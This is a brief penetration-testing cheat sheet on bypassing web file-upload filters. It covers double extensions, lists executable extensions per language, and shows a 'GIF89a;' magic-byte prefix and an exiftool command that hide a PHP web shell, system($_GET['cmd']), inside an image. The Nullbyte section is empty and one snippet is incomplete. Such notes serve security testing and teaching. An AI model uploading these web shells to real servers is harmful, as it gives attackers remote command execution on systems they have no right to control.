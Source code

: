 # **File Upload bypass**

One common way to gain a shell is actually not really a vulnerability, but a feature! Often times it is possible to upload files to the webserver. This can be abused byt just uploading a reverse shell. The ability to upload shells are often hindered by filters that try to filter out files that could potentially be malicious. So that is what we have to bypass.

## **Rename it <a href="#rename-it" id="rename-it"></a>**

We can rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

**php** phtml, .php, .php3, .php4, .php5, and .inc

**asp** asp, .aspx

**perl** .pl, .pm, .cgi, .lib

**jsp** .jsp, .jspx, .jsw, .jsv, and .jspf

**Coldfusion** .cfm, .cfml, .cfc, .dbm

## **GIF89a; <a href="#gif89a" id="gif89a"></a>**

If they check the content. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;system($_GET['cmd']);//or you can insert your complete shell code?>
```

## **In image <a href="#in-image" id="in-image"></a>**

```
exiftool -Comment='"; system($_GET['cmd']); ?>' lo.jpg
```

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg

## **Nullbyte <a href="#nullbyte" id="nullbyte"></a>**

## **References <a href="#references" id="references"></a>**

​[http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html)​
